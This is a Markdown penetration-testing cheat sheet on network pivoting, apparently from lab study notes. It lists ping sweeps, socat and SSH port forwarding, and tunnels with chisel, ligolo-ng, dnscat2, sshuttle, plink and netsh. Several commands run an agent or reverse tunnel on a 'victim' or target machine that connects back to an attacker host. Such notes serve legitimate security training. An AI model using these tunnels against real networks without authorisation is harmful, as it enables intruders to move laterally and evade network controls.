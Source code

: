 # 🚢 Port Redirection and Tunneling

## Ping Sweep

```shell
# linux
for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done

# windows cmd
for /L %i in (1,1,254) do @ping -n 1 -w 100 192.168.1.%i | find "Reply"
# windows ps
1..254 | % {"172.16.6.$($_): $(Test-Connection -count 1 -comp 172.16.6.$($_) -quiet)"}
```

## Port Redirection

### Socat

```shell
socat TCP-LISTEN:<local_port>,fork TCP:<ip>:<port>
```

## Port Forwarding

### SSH Local Port Forwarding

```shell
# forwards local machine port 8080 to a remote machine's port 80
ssh -L 8080:localhost:80 user@ssh_server
```

### SSH Remote Port Forwarding

```shell
# forwards a remote machine's port 80 to the local machine's port 9090
ssh -R 127.0.0.1:9090:<target>:80 user@kali_machine
```

### Chisel

```shell
# create server 
chisel server --port 8080 --reverse

# create client on remote machine
chisel client <local_host>:8080 R:<local_port>:localhost:<remote_port>
```

## Tunneling

### Ligolo

> <https://github.com/nicocha30/ligolo-ng/releases>

```shell
# create ligolo interface
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up

# start the proxy on attacker machine
./li-proxy -selfcert -laddr 0.0.0.0:443

# upload the agent to the target machine and start it
./li-agent -connect <attacker_ip>:443 -ignore-cert
agent.exe -connect <attacker_ip>:443 -ignore-cert

# the connection will be displayed in the proxy
session # choose the session
ifconfig # show subnets of the agent
# add the subnet to the routing table
sudo ip route add <subnet> dev ligolo
# back in ligolo, start it
start
```

### Chisel

```shell
# create server 
chisel server --port 8080 --reverse --socks5

# create client on remote machine
chisel client <local_host>:8080 R:socks

# add the port asigned by chisel to /etc/proxychains.conf
# use proxychains to interact with the internal network 
sudo proxychains <command>

# create a client and add an extra port forwarding (useful to access a web page from browser)
./chisel client <local_host>:8080 R:socks R:4545:localhost:80
```

### SSH Dynamic Port Forwarding

```shell
# creates a dynamic tunnel between local host and target
ssh -D 9050 user@10.4.213.215

# add port to /etc/proxychains4.conf
socks5 127.0.0.1 9050

# use proxychains to interact with the internal network 
sudo proxychains <command>
```

### DNS Tunneling

```shell
dnscat2-server feline.corp

# from the victim machine
dnscat feline.corp

# from the server
windows -i <id>
? for help
```

### Sshuttle

```shell
# creates a VPN-like tunnel between networks
sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24
```

## Windows Tools

### ssh.exe

```shell
# creates a dynamic reverse tunnel between current host and attack host
ssh -N -R 9998 kali@192.168.45.171

# configure proxychains in /etc/proxychains4.conf
socks5 127.0.0.1 9998

# using proxychains to interact with 
sudo proxychains <command> <ip>
```

### Plink

```shell
# creates an SSH tunnel from a local port to a remote service
C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
```

### Netsh

```shell
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215

# show active interfaces
netsh interface portproxy show all
```
